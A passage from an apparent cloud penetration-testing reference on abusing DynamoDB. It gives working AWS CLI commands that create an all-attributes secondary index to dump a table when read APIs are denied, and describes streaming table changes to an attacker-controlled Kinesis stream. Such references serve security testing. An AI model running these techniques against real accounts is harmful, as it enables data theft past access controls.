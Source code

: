 ```bash
  --attribute-definitions AttributeName=X,AttributeType=S \
  --global-secondary-index-updates '[{"Create":{"IndexName":"ExfilIndex","KeySchema":[{"AttributeName":"X","KeyType":"HASH"}],"Projection":{"ProjectionType":"ALL"}}}]' \
  --region us-east-1
# Wait for index to become ACTIVE
aws dynamodb describe-table --table-name HTXIdx --region us-east-1 \
  --query 'Table.GlobalSecondaryIndexes[?IndexName==`ExfilIndex`].IndexStatus'

# 3) Set X="dump" for each item (only UpdateItem on known keys)
for i in 1 2 3 4 5; do \
  aws dynamodb update-item --table-name HTXIdx \
  --key "{\"id\":{\"S\":\"$i\"}}" \
  --update-expression 'SET #x = :v' \
  --expression-attribute-names '{"#x":"X"}' \
  --expression-attribute-values '{":v":{"S":"dump"}}' \
  --region us-east-1; done

# 4) Query the index by the constant value to retrieve full items
aws dynamodb query --table-name HTXIdx --index-name ExfilIndex \
  --key-condition-expression '#x = :v' \
  --expression-attribute-names '{"#x":"X"}' \
  --expression-attribute-values '{":v":{"S":"dump"}}' \
  --region us-east-1
```

**Potential Impact:** Full table exfiltration by querying a newly created GSI that projects all attributes, even when base table read APIs are denied.

### `dynamodb:EnableKinesisStreamingDestination` (Continuous exfiltration via Kinesis Data Streams)

Abusing DynamoDB Kinesis streaming destinations to continuously exfiltrate changes from a table into an attacker-controlled Kinesis Data Stream. Once enabled, every INSERT/MODIFY/REMOVE event is forwarded near real-time to the stream without needing read permissions on the table.

Minimum permissions (attacker):
- `dynamodb:EnableKinesisStreamingDestination` on the target table
- Optionally `dynamodb:DescribeKinesisStreamingDestination`/`dynamodb:DescribeTable` to monitor status
- Read permissions on the attacker-owned Kinesis stream to consume records: `kinesis:*`

<details></details>

**Potential Impact:** Continuous, near real-time exfiltration of table changes to an attacker-controlled Kinesis stream without direct read operations on the table.



{{#include ../../../../banners/hacktricks-training.md}}